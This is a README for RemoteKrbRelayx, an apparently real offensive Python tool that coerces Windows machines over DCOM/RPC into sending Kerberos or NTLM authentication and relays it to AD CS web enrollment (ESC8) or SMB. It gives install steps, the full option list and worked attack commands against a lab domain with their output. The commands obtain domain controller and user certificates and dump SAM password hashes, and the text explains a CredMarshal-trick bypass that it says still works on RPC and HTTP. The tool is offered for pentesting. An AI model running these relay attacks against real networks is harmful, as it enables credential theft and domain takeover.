

# RemoteKrbRelayx

A Python tool for coercing and relaying Kerberos authentication over DCOM and RPC, inspired by the wonderful RemoteKrbRelay by Michael Zhmaylo (@MzHmO) / CICADA8-Research.

The tool is mostly connecting together potato.py and rpcrelayserver.py by Sylvain Heiniger (@sploutchy) with KrbRelayx by Dirk-jan Mollema (@_dirkjan).

Note that this tool is by nowhere perfect in its current form. There are very many combination of options and environments, and I have only tested some cases, and only on Linux.

## Installing

The easiest way to install this is using pipx.

```
pipx install git+https://github.com/OleFredrik1/RemoteKrbRelayx.git
```

You can also clone the repo and use pip and install requirements.

```
pip install -r requirements.txt
```

**NB:** Note that this project requires a fork of Impacket. See requirements.txt

## Usage

```
usage: remoteKrbRelayx.py [-h] [-debug] [-lootdir LOOTDIR] [-clsid CLSID] [-session-id SESSION_ID] [-coerce-to HOSTNAME OR IP] -local-ip IP [-ipv6] [-spn PROTOCOL/SERVER]
                          [-authentication-type {negotiate,kerberos,ntlm}] [-relay-target PROTOCOL://SERVER] [-alternate-server HOSTNAME OR IP] [-alternate-protocol {smb,rpc}]
                          [-alternate-rpc-port PORT] [-alternate-smb-pipe PIPE] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey HEX_KEY] [-dc-ip IP] [-adcs]
                          [-template TEMPLATE] [-altname ALTNAME] [-victim TARGET] [-no-smb2support] [-e FILE] [-c COMMAND] [-codec CODEC] [-interactive]
                          target

RemoteKrbRelayx - A tool for coercing and relaying Kerberos authentication over DCOM and RPC. By Ole Fredrik Borgundvåg Berg / Helse- og KommuneCERT (@olefredrikberg)

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address of machine to coerce>

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -lootdir LOOTDIR      Loot directory in which gathered loot (like certificates or dumps) will be stored (default: current directory).

potato:
  -clsid CLSID          A DCOM CLSID (default is d99e6e74-fc88-11d0-b498-00a0c90312f3, which is CertifiedDCOM)
  -session-id SESSION_ID
                        Session ID to perform cross-session activation. Must most likely be used in conjunction with CredMarshal-trick, as using it will generally lead to
                        STATUS_BAD_IMPERSONATION_LEVEL-error when relaying after Resolve0xid2 (default to nothing = SYSTEM activation)
  -coerce-to HOSTNAME OR IP
                        The hostname or IP address to coerce the target to connect to. If not specified, the -local-ip address will be used. This is typically used when trying
                        for cross-session activation with CredMarshal-trick or when using port-forwarding.

listener:
  -local-ip IP          The local IP address to listen on (and coerce the target to connect to if -coerce-to is not specified)
  -ipv6                 Use IPv6

relay:
  -spn PROTOCOL/SERVER  SPN to use for the kerberos relaying. This SPN will be in the ResolveOxid2 response and only kerberos with this SPN will be relayed (default
                        HOST/[relay-target])
  -authentication-type {negotiate,kerberos,ntlm}
                        The type of authentication to requested from the target in the ResolveOxid2 response. This tools only supports relaying kerberos or negotiate of
                        kerberos variety. NTLM is only supported when using alternate relay server. (default is kerberos)
  -relay-target PROTOCOL://SERVER
                        The target to relay to, in the form of PROTOCOL://server[:port][/path]. Required if not using alternate relay server

alternate relay server:
  -alternate-server HOSTNAME OR IP
                        The alternate server for Resolve0xid2 to redirect to instead of using this tool's RPC relay server. Typically a server running ntlmrelayx.py.
  -alternate-protocol {smb,rpc}
                        The protocol to use for the alternate relay server. Required if -alternate-server is specified
  -alternate-rpc-port PORT
                        The alternate server port for RPC requests (default 135)
  -alternate-smb-pipe PIPE
                        The alternate server pipe for SMB requests (default svcctl)

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will
                        use the ones specified in the command line
  -aesKey HEX_KEY       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip IP             IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

AD CS attack options:
  -adcs                 Enable AD CS relay attack
  -template TEMPLATE    AD CS template. Defaults to Machine or User whether relayed account name ends with `$`. Relaying a DC should require specifying `DomainController`
  -altname ALTNAME      Subject Alternative Name to use when performing ESC1 or ESC6 attacks.
  -victim TARGET        Victim username or computername$, to request the correct certificate name.

SMB attack options:
  -no-smb2support       Disable SMB2 Support
  -e FILE               File to execute on the target system. If not specified, hashes will be dumped (secretsdump.py must be in the same directory)
  -c COMMAND            Command to execute on target system. If not specified, hashes will be dumped (secretsdump.py must be in the same directory).
  -codec CODEC          Sets encoding used (codec) from the target's output (default "utf-8").
  -interactive          Launch an smbclient insteadof executing a command after a successful relay. This console will listen locally on a tcp port and can be reached with for
                        example netcat.
```

### The simple cases

#### CertifiedDCOM + ADCS ESC8

This attack works against Certificate Authorities (CAs). Ensure that the template is one that the CA can enroll to.

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/user:password@dc-jpq225.cicada.vl' -relay-target 'http://dc-jpq225.cicada.vl/certsrv/' -local-ip 10.10.14.65 -k -adcs -template DomainController -victim ca
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/dc-jpq225.cicada.vl
[*] Starting attack against http://dc-jpq225.cicada.vl
[*] HTTP server returned status code 200, treating as a successful login
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 93
[*] Writing PKCS#12 certificate to ./ca.pfx
[*] Certificate successfully written to file
[*] Shutting down RPC Server
```

#### CertifiedDCOM + SMB

Usually the CA-server does not have special privileges on other machines, so this a bit contrived but:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -relay-target 'smb://ofwindows1.cicada.vl' -local-ip 10.10.14.65 -k 
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/ofwindows1.cicada.vl
[*] Starting attack against smb://ofwindows1.cicada.vl
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x[Redacted]
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:[Redacted]:::
olefredrik:1001:aad3b435b51404eeaad3b435b51404ee:[Redacted]:::
[*] Done dumping SAM hashes for host: ofwindows1.cicada.vl
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] Shutting down RPC Server
```

### Cross-relay and the CredMarshal-trick that wasn't dead

If you try to do simple cross-session relaying with this tool, you will most likely get HTTP 500 on ADCS and STATUS_BAD_IMPERSONATION_LEVEL on SMB due to wrong impersonation level on the authentication after ResolveOxid2.

But we can use the CredMarshal-trick from [James Forshaw](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html). The CredMarshal-trick was patched on SMB when [CVE-2025-33073](https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025) was patched, but it still works on [RPC and HTTP](https://x.com/decoder_it/status/1940086249420988572). Then we can the initial connection when the victim. This authentication has the right impersonation level. See eg. [this article](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx) for more information about the CredMarshal-trick (note that the actual attack described in the article has been patched).

Of course, this also works for SYSTEM-authentication, but often this has the right impersonation level, so the "vanilla"-attack is easier as it does not require registering or spoofing a marshalled DNS-pointer, but that depends on clsid. In my limited testing I found some where you had a SYSTEM-authentication where it only worked to relay the first request.

**NB:** Remember to set -spn to RPCSS/[host] when doing this attack, otherwise the RPC-server will not relay the kerberos authentication, as this tool only relays kerberos authentication with the expected SPN.

#### Example (SilverPotato + ADCS ESC8):

DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA here points to my machine 10.10.14.65

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@ofwindows1.cicada.vl' -relay-target 'http://dc-jpq225.cicada.vl/certsrv/' -local-ip 10.10.14.65 -coerce-to DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -k -spn RPCSS/DC-JPQ225 -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1 -adcs -template User -victim rosie
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn RPCSS/DC-JPQ225
[*] Starting attack against http://dc-jpq225.cicada.vl
[*] HTTP server returned status code 200, treating as a successful login
[-] DCOM SessionError: unknown error code: 0x80070001 Note that DCOM errors also happens during successful relays.
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 91
[*] Writing PKCS#12 certificate to ./rosie.pfx
[*] Certificate successfully written to file
[*] Shutting down RPC Server
```

The "naive" way does not work:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@ofwindows1.cicada.vl' -relay-target 'http://dc-jpq225.cicada.vl/certsrv/' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1 -adcs -template User -victim rosie
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Auth type received not supported: 10
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/dc-jpq225.cicada.vl
[*] Starting attack against http://dc-jpq225.cicada.vl
[*] HTTP server returned status code 500, treating as a successful login
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[-] Error getting certificate! Make sure you have entered valid certificate template.
[*] Shutting down RPC Server
```

### The curious case of ncacn_np

In his talk on CertifiedDCOM Tianze Ding [noted](https://youtu.be/JQP3ZfM1V0U?t=1350) that you can respond to ResolveOxid2 with a named pipe, and then the server will authenticate:

- With the identity RPCSS (NETWORK SERVICE), i.e. the machine account.
- With impersonation level of RPC_C_IMP_LEVEL_IMPERSONATE, which means that it can be relayed.

If we e.g. use the clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 (SilverPotato) and do a cross-session attack it fails, per the discussion in the section on cross-relaying:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 3 -relay-target 'smb://ofwindows1.cicada.vl:4445'       
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Auth type received not supported: 10
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/ofwindows1.cicada.vl
[*] Starting attack against smb://ofwindows1.cicada.vl
[-] SMB SessionError: code: 0xc00000a5 - STATUS_BAD_IMPERSONATION_LEVEL - A specified impersonation level is invalid. Also used to indicate that a required impersonation level was not provided.
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Shutting down RPC Server
```

If we relay NTLM instead we can see what user it tried to log in:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 3 -alternate-server 10.10.14.65 -alternate-protocol rpc -alternate-rpc-port 1135 -authentication-type ntlm

└─$ ntlmrelayx.py -t smb://ofwindows1.cicada.vl:4445 -smb2support -ip 10.10.14.65 --rpc-port 1135
[...]
[*] RPCD: Received connection from 10.129.234.48, attacking target smb://ofwindows1.cicada.vl:4445
[*] Authenticating against smb://ofwindows1.cicada.vl:4445 as CICADA\Administrator SUCCEED
[-] SMB SessionError: code: 0xc00000a5 - STATUS_BAD_IMPERSONATION_LEVEL - A specified impersonation level is invalid. Also used to indicate that a required impersonation level was not provided.
[...]
```

It is Administrator as expected as Administrator has session 3 on the machine. And it fails with bad impersonation level, as described in the section on cross-relaying.

However, if we get ResolveOxid2 to redirect to SMB it will authenticate with the machine account and with the right impersonation level:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -local-ip 10.10.14.65 -k -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 3 -alternate-server 10.10.14.65 -alternate-protocol smb -authentication-type ntlm

└─$ ntlmrelayx.py -t smb://ofwindows1.cicada.vl:4445 -smb2support -ip 10.10.14.65 --rpc-port 1135
[...]
[*] SMBD-Thread-6 (process_request_thread): Received connection from 10.129.234.48, attacking target smb://ofwindows1.cicada.vl:4445
[*] Authenticating against smb://ofwindows1.cicada.vl:4445 as CICADA/DC-JPQ225$ SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xXXXXXXXXXXXXXXXXXXXXXXXX
[...]
```

As the CredMarshall-attack is patched for SMB, and SMB does not care about the SPN we set in the ResolveOxid2 response, we can only use this to do NTLM-relaying. Now, users being able to coerce NTLM-authentication to SMB from machines in a domain is not exactly new, as there are several well known ways to do this, like using PetitPotam. However, as [Microsoft are slowly limiting some of these methods on newer Windows versions](https://blog.redteam-pentesting.de/2025/windows-coercion/) this might be more interesting? On the other hand, I found multiple clsids that I could get SYSTEM-activation directly with a relatively lowlevel user on cicada.vl, just by testing some of the ones outputted by RemoteKrbRelay's checker-tool, so it might unneccessary complicated? Anyhow, it is a wierd quirk I thought it was worth documenting. I also just relay the first NTLM-request when it tries to get to epmapper. Maybe having a fake epmapper and relaying later is possible and gives a different result?

## FAQ

- Why did you make this tool?
    - On pentests we suprisingly often found ESC8-vulnerabilities that required Kerberos-authentication. We used to do PetitPetam (or similar) and the CredMarshal-trick, but now that this has been patched we need an alternative way of getting Kerberos-authentication we can relay. RemoteKrbRelay exists of course, but we have generally used Linux during our pentests, so we wanted a Linux-tool.
- Why is there no LDAP-relay client?
    - Relaying RPC to LDAP was largely patched in 2022. There are rumours about a [patch bypass](https://x.com/CICADA8Research/status/1891408177016569950), but I haven't managed to find that when testing. So it was not worth the effort for me as for now, but might come later either by me or if someone wants to make a PR.
- Why not make rpcrelayserver.py a part of KrbRelayx instead of making a new tool?
    - I wanted to make a Python version of RemoteKrbRelay.
    - Relaying kerberos from RPC required (in my experience at least) required Mutual Authentication, which means an additional relaying packets back and forth an additional time. This has also been documented by [Andrea Pierini](https://decoder.cloud/2025/04/24/from-ntlm-relay-to-kerberos-relay-everything-you-need-to-know/#:~:text=This%20consistently%20happened%20when%20I%20was%20relaying%20RPC/DCOM%20instead%20of%20SMB). KrbRelayx does not support this, and supporting this required rewriting much of KrbRelayx's clients, so I made this new tool instead.
    - It would require adding command line options for ResolveOxid2 to KrbRelayx which might clutter the tool.
- What about NTLM-relaying?
    - If you want to relay the initial authentication when the server connect for doing Resolve0xid2, you can use [potato.py and ntlmrelayx.py](https://github.com/sploutchy/impacket/tree/potato) rather than this tool.
    - If you want to relay after the ResolveOxid2, you can specify -alternate-server to a server running ntlmrelayx.py. Note that rpcrelayserver.py is a very recent addition to Impacket, so ensure that you have a recent version (or use @sploutchy's fork) if you want to relay NTLM from an RPC-server.
- What is the difference between -coerce-to and -alternate-server?
    - -coerce-to is for the original potato-coercion, whilst -alternate-server is what ResolveOxid2 respond. I made a simple figure to illustrate. Here -coerce-to and -alternate-server is the same server as the original attacker, but that is just for simplicity, they can be different servers:



## Acknowledgements

- [RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay) by Michael Zhmaylo (@MzHmO) / CICADA8-Research was used heavily for inspiration and debugging / comparing to during development.
- [KrbRelayx](https://github.com/dirkjanm/krbrelayx) by Dirk-jan Mollema (@_dirkjan)
- [potato.py and rpcrelayserver.py](https://github.com/sploutchy/impacket/tree/potato) by Sylvain Heiniger (@sploutchy) 
- Original research [CertifiedDCOM](https://blackhat.com/asia-24/briefings/schedule/#certifieddcom--the-privilege-escalation-journey-to-domain-admin-with-dcom-37519) by Tianze Ding (@D1iv3) and [ADCSCoercePotato](https://decoder.cloud/2024/02/26/hello-im-your-adcs-server-and-i-want-to-authenticate-against-you/) by Andrea Pierini (@decoder_it)
- General research on DCOM, RPC and kerberos-relaying from  James Forshaw
(@tiraniddo), Fabian Mosch (@ShitSecure), Antonio Cocomazzi (@splinter_code) and @cube0x0
- And many more
